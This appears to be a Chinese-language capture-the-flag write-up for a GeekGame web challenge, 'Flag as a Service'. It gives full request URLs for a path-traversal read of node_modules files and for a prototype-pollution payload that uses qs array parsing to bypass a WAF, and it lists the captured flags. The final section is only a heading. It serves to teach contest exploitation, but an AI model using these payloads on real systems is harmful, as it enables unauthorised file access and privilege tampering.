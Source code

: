 # Flag即服务

## 获得代码

调用`https://prob11-przmvj3v.geekgame.pku.edu.cn/api/`报错

```txt
Error: EISDIR: illegal operation on a directory, read
    at Object.readSync (fs.js:617:3)
    at tryReadSync (fs.js:382:20)
    at Object.readFileSync (fs.js:419:19)
    at /usr/src/app/node_modules/jsonaas-backend/index.js:56:19
    at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/usr/src/app/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/usr/src/app/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)
    at /usr/src/app/node_modules/express/lib/router/index.js:281:22
    at param (/usr/src/app/node_modules/express/lib/router/index.js:354:14)
```

猜测这一API是将我们输入的地址和`data`进行拼接后用`fs.readFileSync`进行读取。

同时，从这一错误信息中可以看到`jsonaas-backend`这个库，猜测这个库中有我们需要的信息。

因为它的路径在`data`的上一层，我们尝试调用`https://prob11-przmvj3v.geekgame.pku.edu.cn/api/..%2Fnode_modules%2Fjsonaas-backend%2Findex.js`来获取这个库的代码（注意这里要把`/`转义为`%2F`）。但提示`File too big!`，说明文件存在但大小超过了API的限制。根据Node项目的特点，猜测同一目录下有`package.json`文件，尝试调用`https://prob11-przmvj3v.geekgame.pku.edu.cn/api/..%2Fnode_modules%2Fjsonaas-backend%2Fpackage.json`，得到：

```json
{
  "_from": "https://geekgame.pku.edu.cn/static/super-secret-jsonaas-backend-1.0.1.tgz",
  "_id": "jsonaas-backend@1.0.1",
  "_inBundle": false,
  "_integrity": "sha512-1QXyB4EMI5AyDxZKBKd67uKv6ih4WmLElayHqh/PVo/L1JzSN1zWdPJkzch92OGAE2uNd8udoHLYXNrIXKIf9A==",
  "_location": "/jsonaas-backend",
  "_phantomChildren": {},
  "_requested": {
    "type": "remote",
    "raw": "jsonaas-backend@https://geekgame.pku.edu.cn/static/super-secret-jsonaas-backend-1.0.1.tgz",
    "name": "jsonaas-backend",
    "escapedName": "jsonaas-backend",
    "rawSpec": "https://geekgame.pku.edu.cn/static/super-secret-jsonaas-backend-1.0.1.tgz",
    "saveSpec": "https://geekgame.pku.edu.cn/static/super-secret-jsonaas-backend-1.0.1.tgz",
    "fetchSpec": "https://geekgame.pku.edu.cn/static/super-secret-jsonaas-backend-1.0.1.tgz"
  },
  "_requiredBy": [
    "/"
  ],
  "_resolved": "https://geekgame.pku.edu.cn/static/super-secret-jsonaas-backend-1.0.1.tgz",
  "_shasum": "9af4bb380e83a63b7e04e0edf8482bb00b2f9f35",
  "_spec": "jsonaas-backend@https://geekgame.pku.edu.cn/static/super-secret-jsonaas-backend-1.0.1.tgz",
  "_where": "/usr/src/app",
  "author": {
    "name": "You"
  },
  "bundleDependencies": false,
  "dependencies": {
    "express": "^4.17.1",
    "express-session": "^1.17.2",
    "helmet": "^4.6.0"
  },
  "deprecated": false,
  "description": "",
  "license": "WTFPL",
  "main": "index.js",
  "name": "jsonaas-backend",
  "scripts": {},
  "version": "1.0.1"
}
```

从中得到代码的下载链接。下载代码后，从`index.js`的最后看到

```js
if(FLAG0!==`flag{${0.1+0.2}}`)
  return;
```

从而得到第一个Flag为`flag{0.30000000000000004}`。

## 开通会员

注意到源码中`GET /activate`中的判断，只要`req.session.activated`有值，就会输出Flag。

考虑原型链污染。`waf()`函数中的判断是`indexOf`的方式，如果`in_path`是一个字符串，则无法在中间插入我们所需的关键词。而如果构造成对象，则会缺失`indexOf()`方法。查阅`qs`文档，我们可以将`in_path`构造成数组，这样就既保留了`indexOf()`方法，又可以通过加前后缀的方法来避开`waf()`中的判断。

因为后面的处理中屏蔽了`_`，我们希望构造`a.constructor.prototype.activated`这样的链条。注意到程序中用`/`切分了`in_path`，我们构造如下的请求：

`https://prob11.geekgame.pku.edu.cn/api/..%2Fpackage.json?in_path%5b0%5d=%2Fconstructor%2Fprototype%2Factivated%2F`

这样输入的`in_path`为`['/constructor/prototype/activated/']`，而在后面的处理中，得到的`in_path`数组为`['constructor', 'prototype', 'activated']`，完美实现了我们希望达成的污染。

污染之后，调用`GET /activate`即得到第二个Flag`flag{I-Can-ACtivAte-From-Prototype}`。

## 为所欲为
